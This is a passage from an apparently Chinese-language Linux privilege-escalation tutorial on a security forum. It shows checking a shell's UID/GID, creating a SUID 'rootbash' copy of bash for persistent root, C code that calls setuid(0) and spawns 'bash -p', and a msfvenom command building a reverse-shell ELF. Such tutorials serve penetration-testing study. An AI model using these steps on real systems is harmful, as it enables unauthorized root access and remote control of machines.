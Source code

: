 ![image-20210701132736765](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cb8f8bf293f189189558027fbb4c1c335fa75235.png)

#### 当前进程（即我们的shell）

真实、有效、已保存和文件系统用户/组ID

```php
cat /proc/$$/status | grep "[UG]id"
```

![image-20210701132748704](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-160f1d7c03e052cab42d305fc4bd9ccae6a45c14.png)

0x02 生成外壳
=========

前言
--

目标：生成root外壳执行`/bin/sh` 或`/bin/bash`

rootbash SUID
-------------

创建一个副本

在/bin/bash可执行文件中创建一个副本 ，通常将其重命名为rootbash，确保它归根用户所有

并且设置了SUID位，只需执行rootbash文件就可以生成root的shell

使用`-p`命令行选项，可以持久，方便我们多次利用rootbash

自定义可执行文件
--------

可能存在某些根进程执行另一个root进程，你可以控制的过程。

这时候

```c
int main() {
setuid(0);
system("/bin/bash -p");
}
```

上一串神秘的`.c`代码

```php
gcc -o <name> <filename.c
```

编译后，将生成一个以root身份运行的Bash shell：

msfvenom
--------

反向外壳 首先msfvenom，又叫毒液

```php
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > a001.elf
```
